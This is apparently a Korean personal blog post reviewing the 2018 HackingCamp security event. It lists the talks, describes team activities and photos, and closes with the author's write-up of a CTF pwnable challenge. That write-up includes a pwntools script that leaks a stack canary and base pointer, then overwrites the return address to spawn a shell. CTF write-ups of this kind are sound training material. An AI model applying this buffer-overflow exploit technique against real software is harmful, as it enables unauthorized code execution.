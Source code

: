 ```yaml
---
layout: post
title: 2018 18th HackingCamp Review
---
```


# **2018 18th HackingCamp Review**

![kakaotalk_20180902_175327263](https://user-images.githubusercontent.com/36659181/44996586-a24a1080-afe3-11e8-9214-50be3259e941.jpg)

거의 반강제로 해킹캠프 후기를 쓰게 된 wally0813 입니다 ㅋㅋㅋ

이래저래 사람들도 많이 뵙고 재밌었어용ㅎㅎ 개강 전 마지막 방학에 좋은 경험이였습니당ㅎㅎ

낯을 많이 가리는데 먼저 말걸어주시고 장난쳐주셔서 다들 감사합니당ㅠㅠㅋㅋ




```
어디로 가야하오 - 정진욱
나도 이제 악성코드를 분석해볼까? - 차민석
Deep dive analysis of hwp malware targeting cryptocurrency exchanges (Remaster Edition) - 조효제
Digital Forensics a2A - 김수영
BROP (부제: general ROP? nop, this is BROP!) - 안건희
apt-get install heap - 황호
Security Option Bypass 101  - 문시우
버그헌팅 어렵지 않아 – 국내 미디어플레이어 취약점 제보기 - 최광준
1 Bug 3 Bounty - 김민정
창과 방패: Cheat & Anti Cheat - 김지오
```
이번 발표 주제들이였는데 다 재밌고 다들 열심히 발표해주셧어요ㅎㅎ

개인적으로는 버그헌팅 주제들이 되게 재밌었네용 담에 꼭 도전해보고싶습니다ㅋㅋ

그리고 특히 heap 발표하신분 엄청 친절하게 설명해주셔서 감탄했습니다ㅋㅋ


중간중간 쉬는 시간에 SISS 분들이 이벤트도 해주셔서 팀원들이랑도 친해지고 재밌었어요ㅋㅋ

아이스크림 사준 팀장언니 짱bb 다른 팀원분들도 다들 친절하시고 넘 웃기셧어요ㅋㅋㅋㅋ



![kakaotalk_20180903_184259851](https://user-images.githubusercontent.com/36659181/44996665-213f4900-afe4-11e8-87ad-1366a6b716fa.jpg)

그 후엔 저녁먹고 장기자랑도 보고 치킨도 먹으면서 ctf 했습니당

ctf 는 포너블은 꼭 풀어야지 했는데, 초반에 한번도 보지 못한 윈도우 포너블이 나와서 당황하다가,..

c0nstant 님에게 왜 윈도우 포너블만 있냐고 물어보니 공부시키려고 그랬다고 합니다..ㅎㅎㅎ 공부해야지..


cntdic 나오고 그것만 봤는데 어려운 문제가 아닌데 

그날 머리가 안돌아갔는지 시간안에 못풀어서 너무 아쉬웠습니다..ㅠㅠ

flag도 못따고 아쉬운 마음에 여기에 라업 투척..

카나리있고 바운더리 걸려있는 단순한 bof 문제였습니당

```python
from pwn import *
from time import *

w = process("./cntdic")
#w = remote("kshgroup.kr",1800)

def create(name,description,language,capital):
	w.sendlineafter("Your choice : ", "1")
	w.sendlineafter(":", name)
	w.sendlineafter(":", description)
	w.sendlineafter(":", language)
	w.sendlineafter(":", capital)
	w.recvline()

def remove():
	w.sendlineafter("Your choice : ", "2")
	w.sendlineafter(":", "y")

def showlist():
    w.sendlineafter("Your choice : ", "3")

def showdetail(index):
    w.sendlineafter("Your choice : ", "4")
    w.sendlineafter(":", str(index))
	w.recvuntil("Capital :")
	canary = u32(w.recvuntil("Language :")[55:58].rjust(4,"\x00"))
	ebp = u32(w.recvuntil("=")[26:30])+0x40
	return canary, ebp

for i in range(0, 95):
	create("a"*20, "b"*30,"c"*20,"d"*20)

create("a"*20, "b"*30,"c"*20,"d"*53)

canary, ebp = showdetail(99)
log.info("Find Canary!! "+hex(canary))
log.info("Find EBP!! "+hex(ebp))

one_shot = 0x08048e86 + 0x1d

remove()

create("a"*20, "b"*30,"c"*20,"d"*53+p32(canary)+p32(one_shot)+p32(ebp-4))

w.interactive()

```


그리고 대망의..
![kakaotalk_20180902_182005462](https://user-images.githubusercontent.com/36659181/44996681-4c299d00-afe4-11e8-8c48-856b0f64b7e0.jpg)
강준혁의 계략으로 찍게 된 헥서 단체사진ㅠㅠ

아직도 그때만 생각하면 쪽팔린데ㅋㅋㅋ 좋은 추억이였네요ㅠㅠㅋㅋㅋㅋ

그리고 팀장님이 좋아하셔서 다행입니다ㅋㅋㅋㅋㅋㅋ


상받으신 분들 다들 축하드리고 해킹캠프 운영해주신 POC 분들, SISS, DEMON 팀 분들 다들 고생하셧습니다 XD


저는 이만 윈도우 포너블 공부하러...빠이!

